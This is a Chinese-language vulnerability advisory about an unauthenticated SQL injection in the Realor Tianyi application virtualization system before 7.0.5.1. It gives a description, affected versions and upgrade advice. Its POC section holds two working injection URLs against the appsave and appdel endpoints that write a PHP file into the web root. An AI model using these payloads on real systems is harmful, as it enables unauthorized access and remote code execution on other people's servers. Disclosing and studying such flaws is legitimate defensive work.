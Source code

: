 #  漏洞预警 | 瑞友天翼应用虚拟化系统SQL注入漏洞   
原创 lalone  浅安安全   2024-05-13 07:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
瑞友天翼应用虚拟化系统是基于云计算技术的应用虚拟化解决方案，可以帮助用户实现应用的快速部署和管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SUXzkIS3UCiaMBXoe3QHiaR40tfl7H16YMjwnToL6UymHDWN1GdEIaQiajIq4O8ibKbhFVkYibiabRZk4Qg/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
SQL注入  
  
  
**影响：**  
  
获取敏感信息  
  
**简述：**  
瑞友天翼应用虚拟化系统中的\Home\Controller\AdminController存在appsave/appdel两个无需鉴权并且存在SQL注入的风险的接口，未授权的攻击者可利用此漏洞获取敏感信息，由于默认未通过secure_file_priv配置限制mysql写入文件路径，攻击者可利用此漏洞读写本地任意文件，从而远程执行任意代码。  
###   
  
**0x04 影响版本**  
- 瑞友天翼应用虚拟化系统 < 7.0.5.1  
  
**0x05****POC**  
```
{URL}/hmrao.php?s=/Admin/appsave&appid=11111111%27);select+%27%3C%3fphp+echo+md5(11111111)%3f%3E%27+into+dumpfile+%27../../WebRoot/11122222.php%27%3b--+</

{URL}/hmrao.php?s=/Admin/appdel&list=11111111'));select+'<%3fphp+echo+md5(123)%3f>'+into+dumpfile+'../../WebRoot/1234.php'%3b--+
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
http://www.realor.cn/  
  
  
  
